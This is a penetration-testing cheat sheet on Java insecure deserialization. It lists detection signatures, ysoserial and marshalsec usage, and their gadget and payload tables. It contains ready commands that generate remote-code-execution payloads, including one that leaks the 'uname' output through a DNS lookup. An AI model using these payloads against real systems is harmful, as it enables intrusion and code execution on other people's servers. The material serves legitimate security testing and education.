 +++
title = "Insecure Deserialization - Java"
description = "Java insecure object deserialization attacks, everything you need to know"
date = '2023-03-23'
include_toc = 'true'
+++
# Java Deserialization

## Detection

`"AC ED 00 05"` in Hex
`AC ED`: __STREAM_MAGIC__. Specifies that this is a serialization protocol.
`00 05`: __STREAM_VERSION__. The serialization version.
`"rO0"` in Base64
`Content-type = "application/x-java-serialized-object"`
`"H4sIAAAAAAAAAJ"` in gzip(base64)

## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that
exploit unsafe Java object deserialization.

```
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```
List of payloads included in ysoserial:
```
	Payload             Authors                                Dependencies
	-------             -------                                ------------
	AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
	BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5
	C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
	Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
	Clojure             @JackOfMostTrades                      clojure:1.8.0
	CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1,
commons-logging:1.2
	CommonsCollections1 @frohoff                               commons-collections:3.1
	CommonsCollections2 @frohoff                               commons-collections4:4.0
	CommonsCollections3 @frohoff                               commons-collections:3.1
	CommonsCollections4 @frohoff                               commons-collections4:4.0
	CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
	CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
	CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
	FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
	Groovy1             @frohoff                               groovy:2.3.9
	Hibernate1          @mbechler
	Hibernate2          @mbechler
	JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final,
 cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
	JRMPClient          @mbechler
	JRMPListener        @mbechler
	JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE,
 aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2,
 spring-core:4.1.4.RELEASE, commons-collections:3.1
	JavassistWeld1      @matthias_kaiser                      javassist:3.12.1.GA,
weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
	Jdk7u21             @frohoff
	Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
	MozillaRhino1       @matthias_kaiser                       js:1.7R2
	MozillaRhino2       @_tint0                                js:1.7R2
	Myfaces1            @mbechler
	Myfaces2            @mbechler
	ROME                @mbechler                              rome:1.0
	Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
	Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE,
aopalliance:1.0, commons-logging:1.2
	URLDNS              @gebl
	Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
	Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

### Burp extensions using ysoserial
 - JavaSerialKiller
 - Java Deserialization Scanner
 - Burp-ysoserial
 - SuperSerial
 - SuperSerial-Active

### Alternative Tooling
 - pwntester/JRE8u20_RCE_Gadget
 - joaomatosf/JexBoss - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
 - pimps/ysoserial-modified
 - NickstaDB/SerialBrute - Java serialization brute force attack tool
 - NickstaDB/SerializationDumper - A tool to dump Java serialization streams in a more human readable form
 - bishopfox/gadgetprobe
 - mbechler/marshalsec - Turning your data into code execution
```
$ java -cp marshalsec.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
$ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
$ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389
		-a - generates/tests all payloads for that marshaller
		-t - runs in test mode, unmarshalling the generated payloads after generating them.
		-v - verbose mode, e.g. also shows the generated payload in test mode.
 - gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific
marshaller.
 - arguments - Gadget specific arguments
```

Payload generators for the following marshallers are included:
```
Marshaller	Gadget Impact
BlazeDSAMF(0|3|X)	JDK only escalation to Java serialization various third party libraries RCEs
Hessian|Burlap	various third party RCEs
Castor	dependency library RCE
Jackson	possible JDK only RCE, various third party RCEs
Java	yet another third party RCE
JsonIO	JDK only RCE
JYAML	JDK only RCE
Kryo	third party RCEs
KryoAltStrategy	JDK only RCE
Red5AMF(0|3)	JDK only RCE
SnakeYAML	JDK only RCEs
XStream	JDK only RCEs
YAMLBeans	third party RCE
```
## Gadgets
Require: * java.io.Serializable


##<References
 - [Github - ysoserial](https://github.com/frohoff/ysoserial)
 - [Triggering a DNS lookup using Java Deserializatio]n -
paranoidsoftware.com](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
 - [Detecting deserialization bugs with DNS exfiltration - Philippe Arteau | Mar 22,
2017](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
 - [Java-Deserialization-Cheat-Sheet -
GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
 - [Understanding & practicing java deserialization
exploits](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
 - [How i found a 1500$ worth Deserialization vulnerability -
@D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
 - [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - 14 Aug 2017, Peter
Stöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-
vulnerabilities.html)
 - [Jackson CVE-2019-12384: anatomy of a vulnerability class](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
 - [On Jackson CVEs: Don’t Panic — Here is what you need to
know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
 - [Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464) - Michael Stepankin / @artsploit - 29 June
2021](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)
